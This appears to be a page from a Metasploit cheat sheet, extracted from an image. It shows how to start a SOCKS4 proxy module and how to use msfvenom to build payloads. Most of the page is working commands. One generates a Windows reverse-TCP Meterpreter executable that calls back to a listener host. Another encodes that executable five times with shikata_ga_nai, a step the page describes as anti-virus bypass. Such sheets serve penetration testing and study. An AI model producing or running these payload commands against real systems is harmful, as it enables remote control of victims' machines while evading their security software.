 ###### Proxy Server:

```
msf > use auxiliary/server/socks4
msf > run 
```

#### msfvenom :

The msfvenom tool can be used to generate Metasploit payloads (such as Meterpreter) as standalone files and optionally encode 
them. This tool replaces the former msfpayload and msfencode tools. Run with ‘'-l payloads’ to get a list of payloads.

```
$ msfvenom –p [PayloadPath]
–f [FormatType]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

Example :

Reverse Meterpreter payload as an executable and redirected into a file:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -f exe LHOST=10.1.1.1
LPORT=4444 > met.exe
```

Format Options (specified with –f) --help-formats – List available output formats

exe – Executable
pl – Perl
rb – Ruby
raw – Raw shellcode
c – C code

Encoding Payloads with msfvenom

The msfvenom tool can be used to apply a level of encoding for anti-virus bypass. Run with '-l encoders'
to get a list of encoders.

```
$ msfvenom -p [Payload] -e [Encoder] -f
[FormatType] -i [EncodeInterations]
LHOST=[LocalHost (if reverse conn.)]
LPORT=[LocalPort]
```

Example

Encode a payload from msfpayload 5 times using shikata-ga-nai encoder and output as executable:

```
$ msfvenom -p windows/meterpreter/
reverse_tcp -i 5 -e x86/shikata_ga_nai -f
exe LHOST=10.1.1.1 LPORT=4444 > mal.exe
```
